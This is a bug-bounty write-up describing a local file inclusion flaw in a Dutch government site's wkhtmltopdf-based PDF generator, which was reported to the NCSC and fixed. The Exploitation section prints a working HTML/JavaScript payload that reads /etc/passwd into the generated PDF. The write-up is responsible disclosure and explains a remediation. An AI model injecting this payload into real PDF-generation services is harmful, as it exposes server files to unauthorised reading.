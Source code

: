 # wkhtmltopdf LFI

Finally got around to hacking the Dutch Government and getting the shirt!

## Discovery

I found a website generating PDFs that takes HTML from the client-side:

![](../../../.gitbook/assets/dutch-government-lfi-image.png)

This was interesting, since tons of HackTheBox machines always told me "Client-side HTML for PDF sucks". I downloaded a random PDF and saw that it was being generated by `wkhtmltopdf 0.12.4` via `exiftool`.

![](../../../.gitbook/assets/dutch-government-lfi-image-1.png)

This version of the library was outdated, meaning it was potentially vulnerable to LFI via HTML injection.

## Exploitation

I included this script at the bottom of the HTML used to generate the PDF:

```html
<script>
x = new XMLHttpRequest();
x.open('GET', 'file:///etc/passwd', false);
x.send();
document.write(x.responseText);
</script>
```

When the request was sent, a PDF was generated that included the contents of `/etc/passwd`:

![](../../../.gitbook/assets/dutch-government-lfi-image-2.png)

This confirmed the vulnerability, and I notified the relevant parties about the issue. Thankfully, it was not a dupe and they processed my report. More importantly, I got the shirt:

![](../../../.gitbook/assets/dutch-government-image-1.png)

A big thank you to the National Cyber Security Centre (NCSC) for promptly replying me and working with me to fix the vulnerability.

## Fix

Update libraries used, and validate the HTML used to generate a PDF. `wkhtmltopdf` has a sandbox mode that prevents access to local file systems or external websites that can be set to prevent future exploitation.

## Re-Testing --> Blind SSRF

After they fixed it, I noted that it was actually still possible to do **blind SSRF** for port enumeration on the same endpoint. However, since they only accept P1 or P2 reports (I think?), my report was not processed. Still served as a good learning point though! I suppose client-side HTML and PDF generation will always have issues.

This issue is documented in the 'Not Accepted' section.
